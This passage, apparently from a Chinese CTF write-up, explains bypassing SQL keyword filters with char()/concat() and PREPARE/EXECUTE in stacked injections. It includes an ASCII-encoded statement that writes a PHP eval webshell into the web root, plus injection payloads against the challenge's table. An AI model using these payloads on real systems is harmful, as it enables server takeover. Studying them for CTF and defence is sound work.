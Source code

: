

(3)MySql预处理配合字符串拼接绕过关键字



原理就是借助`char()`函数将ascii码转化为字符然后再使用`concat()`函数将字符连接起来，有了前面的基础这里应该很好理解了：



```sql
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
```



也可以不用concat函数，直接用char函数也具有连接功能：



```sql
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```



而本题可利用 char() 函数将select的ASCII码转换为select字符串，接着利用concat()函数进行拼接得到select查询语句，从而绕过过滤。或者直接用concat()函数拼接select来绕过。



char(115,101,108,101,99,116)<----->'select'



payload1：不使用变量



```sql
1';PREPARE x from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE x;#
```



payload2：使用变量



```sql
1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE x from @sqli;EXECUTE x;#
```



payload3：只使用contact(),不使用char()
